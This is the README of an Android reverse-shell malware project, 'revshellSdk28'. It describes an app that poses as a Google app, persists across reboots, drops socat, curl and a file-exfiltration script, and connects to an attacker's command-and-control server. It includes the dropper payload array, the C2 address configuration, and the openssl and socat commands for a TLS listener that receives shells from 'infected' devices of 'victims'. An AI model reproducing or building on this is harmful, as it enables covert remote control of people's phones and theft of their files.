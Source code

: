# revshellSdk28
This is my Android Reverse Shell with dropping capabilities.

The idea was to create a Termux-like environment with a main APK with core functionality, capable of dropping additional executables and scripts.

## Features
- **Secure TLS shell**
- **Persistent** over time and reboots
- **Hidden** and camouflaged with Google apps
- **Drops additional statically linked executable and scripts** based on CPU architecture

Executable and scripts integrated by default:
- `socat` (aarch64 and x86/x64)
- `curl` (aarch64 and x86/x64)
- custom script for file exfiltration over HTTPS (`uplaod`)
- custom script to get device public IP (`ipinfo`)
- custom script to override `whoami` and set a custom "victim id" (`whoami`)

## Screenshots
This is the Reverse Shell in action. On the right you can see the device app drawer: can you guess where is the malicious app? From a visual perspective the reverse shell is perfectly camouflaged with other Google Apps.

![screenshot1](screenshot1.png)

Unfortunately, to guarantee persistence, the app must show a persistent notification (as sneaky as possible):

![screenshot2](screenshot2.png)

On notification/app opening the user will be redirected to a Google support page:

![screenshot3](screenshot3.png)

## Technical details

### execve

This app is able to execute ELF files using `execve` function. This function is forbidden on Android Q or higher (API level *>28*).

For more details: https://android-review.googlesource.com/c/platform/system/sepolicy/+/804149

So in order to compile this app a target API level between 26 and 28 must be set. This, of course, resulted in a number of limitations so that certain features could not be included or used within the app.

### Statically linked binaries

On the target device there is no possibility to include any sort of dependency for the executable files or compile them from source so the malicious app drops **statically linked binaries** included in the APK at compile time.

To add more binaries you must:
- encode the binary to Base64
- put the encoded file in `./revshellSdk28/app/src/main/res/raw`
- modify `./revshellSdk28/app/src/main/java/org/android/settings/Dropper.kt`; for example:
  ```
              val payloads = arrayOf(
                arrayOf("aarch64", "socat" , readRawTextResource(context, R.raw.socat_aarch64)),
                arrayOf("aarch64", "curl"  , readRawTextResource(context, R.raw.curl_aarch64)) ,
                arrayOf("x86_64" , "socat" , readRawTextResource(context, R.raw.socat_x86_64)) ,
                arrayOf("x86_64" , "curl"  , readRawTextResource(context, R.raw.curl_x86_64))  ,
                arrayOf("any"    , "whoami", readRawTextResource(context, R.raw.whoami))       ,
                arrayOf("any"    , "ipinfo", readRawTextResource(context, R.raw.ipinfo))       ,
                arrayOf("any"    , "upload", readRawTextResource(context, R.raw.upload))
            )
  ```
  including (in order) the following parameters:
    - a specific architecture (aquired on the target machine using `uname -m`) or "any"
    - filename that will be written on device storage
    - name of the Resource File in the Android Project

Binaries included by default are not compiled by me! You can find these on various Github repos. Following some examples:
- https://github.com/polaco1782/linux-static-binaries
- https://github.com/ryanwoodsmall/static-binaries
- https://github.com/mosajjal/binary-tools
- https://github.com/andrew-d/static-binaries

### Command and Control settings
In order to set your C2 server you must modify `./revshellSdk28/app/src/main/java/org/android/settings/MainMaliciousCode.kt`.

You can use an IP or an hostname. Example:
```
    object C2 {
        //const val IP    = "myc2.server.it"
        const val IP    = "123.123.123.123"
        const val RPORT = 443
        const val RETRY = 5
    }
```
Ofcourse you must use a **public address**, set **port forwarding** and firewall rules on your router. Additionally, you can use DNS, Ngrok and other services for reachability and to route your traffic but **how to set this configurations or use those services is out of the scope of this documentation!**

### How to start a session
1. Generate a certificate for the TLS connection on your C2 server:
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -out bind.crt
cat bind.key bind.crt > bind.pem
```
2. Create a listener with your favourite tool. Example:
```
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```
Note: this app is not designed to work in a multi-client environment. The easiest thing you can do to use it with multiple devices is to use a different IP port for each infected machine and change the content of `./revshellSdk28/app/src/main/res/raw/whoami` to set a recognizable name for the victim system.

### Notes on the `upload` script
This script permits file exfiltration over HTTPS. 

To perform this task the file is first Urlencoded then uploaded using `curl` with `--insecure` and `--dns-servers` flags.

If the request return `200 OK` the file is already on the server so it's not uploaded again.

The file is located in `./revshellSdk28/app/src/main/res/raw/upload` and **you must modify it to set your C2 server!**

Note: **a simple HTTP file receiver is included in this project. **


### Notes Curl usage

